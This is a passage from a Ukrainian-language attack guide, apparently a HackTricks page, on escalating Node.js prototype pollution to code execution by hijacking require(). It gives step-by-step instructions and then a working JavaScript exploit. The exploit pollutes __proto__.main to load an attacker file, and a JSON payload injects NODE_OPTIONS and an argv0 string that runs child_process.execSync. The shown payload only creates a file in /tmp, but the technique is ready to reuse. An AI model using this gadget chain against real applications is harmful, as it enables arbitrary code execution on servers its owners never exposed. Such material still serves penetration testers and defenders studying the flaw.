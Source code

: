 Однак, якщо код буде виконувати require після забруднення прототипу, навіть якщо ви **не контролюєте шлях**, який буде вимагатися, ви **можете примусити інший, зловживаючи забрудненням прототипу**. Тож навіть якщо рядок коду виглядає як `require("./a_file.js")` або `require("bytes")`, він **вимагатиме пакет, який ви забруднили**.

Отже, якщо require виконується після вашого забруднення прототипу і немає функції spawn, це атака:

* Знайдіть **`.js` файл всередині системи**, який при **вимозі** буде **виконувати щось за допомогою `child_process`**
* Якщо ви можете завантажувати файли на платформу, яку ви атакуєте, ви можете завантажити файл такого типу
* Забрудніть шляхи, щоб **примусити вимогу завантажити `.js` файл**, який виконає щось з child\_process
* **Забрудніть середовище/cmdline**, щоб виконати довільний код, коли викликається функція виконання child\_process (див. початкові техніки)

#### Абсолютний require

Якщо виконуваний require є **абсолютним** (`require("bytes")`) і **пакет не містить main** у файлі `package.json`, ви можете **забруднити атрибут `main`** і змусити **вимогу виконати інший файл**.

{% tabs %}
{% tab title="exploit" %}
{% code overflow="wrap" %}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Install package bytes (it doesn't have a main in package.json)
// npm install bytes

// Manual Pollution
b = {}
b.__proto__.main = "/tmp/malicious.js"

// Trigger gadget
var proc = require('bytes');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"main": "/tmp/malicious.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_absolute\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('bytes');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{% endcode %}
{% endtab %}
